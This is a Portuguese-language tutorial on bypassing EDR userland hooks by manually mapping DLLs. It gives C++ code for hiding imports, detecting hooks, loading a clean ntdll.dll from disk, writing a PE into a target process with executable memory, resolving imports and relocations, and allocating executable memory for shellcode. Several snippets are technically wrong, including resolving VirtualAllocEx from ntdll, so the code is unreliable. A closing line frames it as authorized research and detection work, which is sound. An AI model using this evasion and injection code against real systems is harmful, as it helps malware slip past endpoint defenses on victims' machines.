



**Manual Mapping** é uma técnica de evasão que permite contornar os hooks implementados por **EDRs** através do carregamento manual de bibliotecas DLL diretamente na memória. Neste contexto, vou explicar como essa técnica funciona na prática, seus fundamentos técnicos e por que representa um desafio significativo para soluções de segurança tradicionais que dependem exclusivamente de userland hooking.

# System Call Obfuscation
Trata-se de uma técnica utilizada em C++ que consiste em executar **APIs** de forma dinâmica diretamente na memória. Para isso, o programa mapeia os endereços das funções chamadas em tempo de execução, possibilitando que sejam resolvidas e executadas dinamicamente.

Para implementar essa técnica, consumiremos algumas APIs:

* **LoadLibraryA** (opcional): utilizada para carregar uma DLL em memória, caso ela não seja carregada por padrão.

* **GetModuleHandle**: retorna um ponteiro para uma DLL já carregada.

* **GetProcAddress**: retorna um ponteiro para o endereço de uma função dentro de uma DLL.

Como exemplo, será demonstrado o carregamento manual da API **MessageBoxW**, responsável por exibir uma janela de mensagem.

**Exemplo:**

Primeiro, declaramos um ponteiro de função com o nome **PMESSAGEBOX**:
```c++
 typedef int (WINAPI *PMESSAGEBOX )(HWND hWnd, LPCWSTR lpText, LPCWSTR lpCaption, UINT uType);
 ```

 Em seguida, utilizamos a API **LoadLibraryA** para carregar a DLL `user32.dll` em memória:

 ```c++
 HMODULE hModule = LoadLibraryA("user32.dll");
 ```
 Definimos então uma variável do tipo do ponteiro:
 ```c++
 PMESSAGEBOX pMessageBox;
 ```
 Essa variável irá receber o endereço da função **MessageBoxW**, utilizando as APIs **GetProcAddress** e **GetModuleHandleA**:
```c++
pMessageBox = (PMESSAGEBOX)GetProcAddress(GetModuleHandleA("user32.dll"), "MessageBoxW");
```
Por fim, executamos a função carregada dinamicamente:
```c++
pMessageBox(NULL, L"heap & shft", L"Eai paper", 0);
```


# IAT (Import Addres Table)
O que é Import Addres Table?

A **IAT** é uma estrutura presente em executáveis do Windows que armazena os endereços das funções importadas de bibliotecas externas (DLLs).

Antes da aplicação da técnica mencionada, a DLL `user32.dll` usada pelo programa aparece na Import Address Table (IAT).


Após a aplicação da técnica mostrada acima, a DLL `user32.dll` não aparecerá na **Import Address Table (IAT)** do binário, já que a função foi resolvida dinamicamente em tempo de execução.



No entanto, isso não significa que seu uso esteja totalmente oculto. Mesmo sem a referência na IAT, ainda é possível identificar o carregamento da `user32.dll` ao inspecionar o binário — por exemplo, listando as strings. Isso acontece porque o nome da DLL e da função ("`user32.dll`" e "`MessageBoxW`") continuam armazenados em formato literal dentro do executável.



(Podemos resolver isso usando XOR nas strings que queremos modificar e decodificá-las em tempo de execução).

# Entendendo Userland Hooking
**Userland Hooking** é uma técnica de monitoramento onde um **EDR** injeta sua própria DLL em todos os processos executando em modo usuário, alterando o fluxo de execução das APIs críticas do Windows através da inserção de instruções em assembly **"JMP (jump)"** que redirecionam as chamadas para o código do EDR. Quando um processo tenta executar uma função da API **(como VirtualAllocEx ou CreateRemoteThread)**, ao invés de executar diretamente a função original, o controle é transferido para o **EDR** que analisa os parâmetros, avalia se a operação é legítima e então decide se permite a execução retornando o controle para a função original ou bloqueia a ação.
<div class="flex justify-center">


</div>

Na imagem, o lado esquerdo mostra o funcionamento normal da função **CreateProcessA** com sua sequência original de instruções assembly. O lado direito demonstra como o **EDR** implementa o hooking: ele substitui as primeiras instruções da função por uma instrução **"JMP"** que redireciona a execução para o código de análise do **EDR** (injetado via DLL no mesmo processo).

# Outra perspectiva da Exploração do Manual Mapping
A primeira etapa envolve o reconhecimento dos mecanismos de proteção implementados. O analista identifica quais bibliotecas dinâmicas foram injetadas pelo **EDR** no processo alvo, normalmente através de ferramentas como **Process Hacker** ou análise programática das estruturas **PEB (Process Environment Block)**. Esta fase inclui o mapeamento das APIs que estão sendo interceptadas através da verificação dos primeiros bytes das funções críticas, comparando-os com suas implementações originais para identificar a presença de instruções **"JMP"** inseridas.
```c++
bool IsHooked(HMODULE module, const char* funcName) {
    FARPROC func = GetProcAddress(module, funcName);
    BYTE* bytes = (BYTE*)func;
    
    if (bytes[0] == 0xE9) return true;
    
    if (bytes[0] == 0xFF && bytes[1] == 0x25) return true;
    
    return false;
}
```

Na segunda etapa, temos o foco de carregar versão original da `ntdll.dll` sem modificações do EDR. Podemos fazer isso a partir do disco, onde ela não esta modificada.

```c++
HANDLE hFile = CreateFile(L"C:\\Windows\\System32\\ntdll.dll", 
                         GENERIC_READ, FILE_SHARE_READ, 
                         NULL, OPEN_EXISTING, 0, NULL);

HANDLE hMapping = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
LPVOID cleanDll = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
```

Na terceira etapa, o mapeamento manual de DLL implementa, em espaço de usuário, uma versão customizada do **PE loader do Windows**. Em vez de usar o carregador do sistema (por exemplo LoadLibrary), a técnica lê o ficheiro PE (DLL) do disco, interpreta os seus cabeçalhos (DOS e NT) e recria manualmente a imagem na memória do processo alvo. 
```c++
void* ManualMap(HANDLE process, BYTE* dllData) {
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)dllData;
    IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)
        (dllData + dosHeader->e_lfanew);
    
    void* baseAddr = VirtualAllocEx(process, NULL,
        ntHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(process, baseAddr, dllData,
        ntHeader->OptionalHeader.SizeOfHeaders, NULL);
    
    IMAGE_SECTION_HEADER* section = IMAGE_FIRST_SECTION(ntHeader);
    for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(process,
            (char*)baseAddr + section[i].VirtualAddress,
            dllData + section[i].PointerToRawData,
            section[i].SizeOfRawData, NULL);
    }
    
    return baseAddr;
}
```
Na quarta etapa, consiste em identificar a tabela de importações presente na imagem PE reconstituída em memória e ligar cada entrada de importação ao endereço efetivo da função exportada correspondente nos módulos dependentes, de modo que as chamadas externas da biblioteca apontem para rotinas válidas no contexto do processo alvo.

```c++
void ResolveImports(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    IMAGE_IMPORT_DESCRIPTOR* importDesc = 
        GetImportDescriptor(baseAddr, ntHeader);
    
    while (importDesc->Name) {
        char* moduleName = (char*)baseAddr + importDesc->Name;
        HMODULE module = GetModuleHandle(moduleName);
        
        IMAGE_THUNK_DATA* thunk = 
            (IMAGE_THUNK_DATA*)((char*)baseAddr + importDesc->FirstThunk);
        
        while (thunk->u1.AddressOfData) {
            IMAGE_IMPORT_BY_NAME* importByName = 
                (IMAGE_IMPORT_BY_NAME*)((char*)baseAddr + 
                thunk->u1.AddressOfData);
            
            thunk->u1.Function = (ULONGLONG)
                GetProcAddressManual(module, importByName->Name);
            
            thunk++;
        }
        importDesc++;
    }
}
```
Nesta etapa ajustam‑se todos os endereços internos da biblioteca quando ela não pode ser carregada exatamente no endereço que esperava. É como atualizar mapas e referências para que tudo continue a apontar para o lugar certo após a realocação. Então vamos ajustar os endereços internos da imagem PE de acordo com o deslocamento entre a base preferida definida no binário e a base efetivamente alocada em memória.

```c++
void ProcessRelocations(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    DWORD_PTR delta = (DWORD_PTR)baseAddr - 
        ntHeader->OptionalHeader.ImageBase;
    
    IMAGE_BASE_RELOCATION* reloc = GetBaseRelocation(baseAddr, ntHeader);
    
    while (reloc->VirtualAddress) {
        WORD* relocItem = (WORD*)((char*)reloc + 
            sizeof(IMAGE_BASE_RELOCATION));
        
        int count = (reloc->SizeOfBlock - 
            sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
        
        for (int i = 0; i < count; i++) {
            if ((relocItem[i] >> 12) == IMAGE_REL_BASED_DIR64) {
                DWORD_PTR* addr = (DWORD_PTR*)((char*)baseAddr + 
                    reloc->VirtualAddress + (relocItem[i] & 0xFFF));
                *addr += delta;
            }
        }
        
        reloc = (IMAGE_BASE_RELOCATION*)((char*)reloc + 
            reloc->SizeOfBlock);
    }
}
```
Nesta etapa final, o código da biblioteca mapeada é efetivamente utilizado: as funções exportadas são identificadas e chamadas para que a biblioteca execute as suas funcionalidades dentro do processo onde foi colocada.

```c++
typedef LPVOID (WINAPI* VirtualAllocExFunc)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);

VirtualAllocExFunc cleanVirtualAllocEx = 
    (VirtualAllocExFunc)GetProcAddressFromMapped(mappedNtdll, "VirtualAllocEx");

LPVOID memory = cleanVirtualAllocEx(targetProcess, NULL, 
    shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
# Limitações do Userland Hooking
Uma limitação é que os hooks são aplicados exclusivamente às bibliotecas dinâmicas (DLLs) que foram carregadas através do processo normal do **Windows PE Loader**. Isso significa que o EDR pode modificar apenas as funções presentes em bibliotecas já mapeadas no espaço de endereçamento do processo através dos métodos convencionais. Consequentemente, DLLs que são carregadas manualmente na memória, contornando o loader padrão, mantêm suas implementações originais sem qualquer modificação ou interceptação. 


# Conclusão
Manual Mapping é uma técnica que carrega e executa uma DLL diretamente na memória sem passar pelo PE loader do Windows, o que pode contornar hooks aplicados por EDRs em userland. A técnica exige reimplementar partes do carregador mapeamento de seções, aplicação de relocations, resolução de imports e inicialização e, por isso, aumenta a complexidade e o risco de instabilidade, embora permita que código execute com os bytes originais de APIs que poderiam ter sido interceptadas. Mesmo assim, não é infalível: detecções comportamentais, verificações de integridade (especialmente em nível de kernel), inconsistências no PEB e correlação de telemetria podem revelar artefatos de mapeamento manual. Para fins de pesquisa e hardening, todo teste deve ser feito em ambientes controlados e com autorização; para defensores, o conhecimento dessa técnica deve ser usado para reforçar detecções e mitigação.
